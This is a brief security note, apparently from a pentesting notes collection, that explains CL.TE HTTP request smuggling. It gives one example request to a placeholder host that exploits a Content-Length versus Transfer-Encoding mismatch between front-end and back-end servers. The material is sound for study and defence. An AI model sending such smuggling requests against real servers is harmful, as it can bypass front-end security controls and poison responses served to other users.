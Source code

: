 ## Descritpion
If the frontend server uses the `Content-Length` header, while backend `Transfer-Encoding`, it is possible to exploit this difference.

Basic exploit:
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```
Basic idea is, that frontend will take 13 bytes (due to Content-Length: 13) but backend will interpret it as chunked, so it'll stop at 0, as is denotes an end in chunked.